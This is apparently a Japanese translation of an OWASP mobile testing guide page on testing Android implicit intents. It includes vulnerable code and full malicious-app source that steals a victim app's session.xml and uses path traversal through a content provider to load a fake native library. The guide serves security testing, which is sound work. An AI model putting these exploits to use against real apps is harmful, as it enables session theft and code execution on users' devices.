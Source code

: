 ```yaml
---
masvs_v1_id:
- MSTG-PLATFORM-2
masvs_v2_id:
- MASVS-CODE-4
platform: android
title: 暗黙的インテントのテスト (Testing Implicit Intents)
masvs_v1_levels:
- L1
- L2
---
```


## 概要

[暗黙的インテント](../../../Document/0x05h-Testing-Platform-Interaction.md#implicit-intents) をテストする際には、それらがインジェクション攻撃に対して脆弱であったり、機密データが漏洩する可能性があるかどうかをチェックする必要があります。

## 静的解析

Android Manifest を調べて、[<queries> ブロック](https://developer.android.com/guide/topics/manifest/queries-element "Android queries") 内で定義されている `<intent>` シグネチャ (アプリがやり取りする他のアプリのセットを指定) を探し、システムアクション (`android.intent.action.GET_CONTENT`, `android.intent.action.PICK`, `android.media.action.IMAGE_CAPTURE`, など) が含まれるかどうかをチェックし、それが出現するソースコードを閲覧します。

たとえば、以下の `Intent` は具体的なコンポーネントを指定しておらず、暗黙的インテントであることを意味しています。ユーザーに入力データを尋ねるために `android.intent.action.GET_CONTENT` アクションを設定し、アプリは `startActivityForResult` と画像選択を指定してインテントを開始します。

```java
Intent intent = new Intent();
intent.setAction("android.intent.action.GET_CONTENT");
startActivityForResult(Intent.createChooser(intent, ""), REQUEST_IMAGE);
```

アプリは `startActivity` の代わりに `startActivityForResult` を使用し、結果 (この場合は画像) を期待していることを示しており、 `onActivityResult` コールバックを探してインテントの戻り値がどのように処理されるかをチェックする必要があります。インテントの戻り値が適切に検証されていない場合、攻撃者はアプリの内部ストレージ `/data/data/<appname>` から任意のファイルを読み取ったり、任意のコードを実行できる可能性があります。この種の攻撃の詳しい説明は [次のブログ記事](https://blog.oversecured.com/Interception-of-Android-implicit-intents " Current attacks on implicit intents") にあります。

### Case 1: 任意のファイルの読み取り

この例では、インテントの返り値の不適切な検証によって、攻撃者がどのようにしてアプリの内部ストレージ `/data/data/<appname>` 内から任意のファイルを読み取ることができるかを見ていきます。

以下の例の `performAction` メソッドは暗黙的インテントの戻り値を読み取ります。これは攻撃者が提供した URI である可能性があり、それを `getFileItemFromUri` に渡します。このメソッドはファイルを一時フォルダにコピーします。これはこのファイルが内部的に表示される場合に通常行われます。しかし、アプリが `getExternalCacheDir` や `getExternalFilesDir` を呼び出すなどして、URI で提供されたファイルを外部の一時ディレクトリに保存する場合、攻撃者は `android.permission.READ_EXTERNAL_STORAGE` パーミッションを設定した後でこのファイルを読み取ることができます。

```java
private void performAction(Action action){
  ...
  Uri data = intent.getData();
  if (!(data == null || (fileItemFromUri = getFileItemFromUri(data)) == null)) {
      ...
  }
}

private FileItem getFileItemFromUri(Context, context, Uri uri){
  String fileName = UriExtensions.getFileName(uri, context);
  File file = new File(getExternalCacheDir(), "tmp");
  file.createNewFile();
  copy(context.openInputStream(uri), new FileOutputStream(file));
  ...
}
```

以下は上記の脆弱なコードを悪用する悪意のあるアプリのソースです。

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
</application>
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("file:///data/data/<victim_app>/shared_preferences/session.xml")));
    finish();
  }
}
```

ユーザーがインテントを処理するために悪意のあるアプリを選択した場合、攻撃者はアプリの内部ストレージから `session.xml` を盗むことができます。前の例では、被害者はダイアログで攻撃者の悪意のあるアプリを明示的に選択する必要があります。しかし、開発者はこのダイアログを抑制し、インテントの受信者を自動的に決定することもできます。これによりユーザーとの追加のやり取りなしで攻撃が発生する可能性があります。

以下のコードサンプルは受信者の自動選択を実装します。悪意のあるアプリのインテントフィルタに優先度を指定することで、攻撃者は選択シーケンスに影響を与えることができます。

```java
Intent intent = new Intent("android.intent.action.GET_CONTENT");
for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {
    intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);
    startActivityForResult(intent);
    return;
}
```

### Case 2: 任意のコードの実行

被害者アプリが `content://` や `file://` URLを許可している場合、暗黙的インテントの不適切に処理された戻り値によって任意のコードが実行される可能性があります。

攻撃者は `public Cursor query(...)` を含む [`ContentProvider`](https://developer.android.com/reference/android/content/ContentProvider "Android ContentProvider") を実装して、任意のファイル (この場合は _lib.so_) を設定できます。もし被害者が `copy` を実行してコンテンツプロバイダからこのファイルをロードすると、攻撃者の `ParcelFileDescriptor openFile(...)` メソッドが実行され、悪意のある _fakelib.so_ を返します。

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
  <provider android:name=".EvilContentProvider" android:authorities="com.attacker.evil" android:enabled="true" android:exported="true"></provider>
</application>
```

EvilContentProvider.java

```java
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
    return matrixCursor;
}
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY);
}
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("content:///data/data/com.attacker/fakelib.so")));
    finish();
  }
}
```

## 動的解析

暗黙的インテントを動的にテストする便利な方法は、特に漏洩の可能性のある機密データを特定するには、Frida または frida-trace を使用して `startActivityForResult` と `onActivityResult` メソッドをフックし、提供されたインテントとそれに含まれるデータを検査することです。
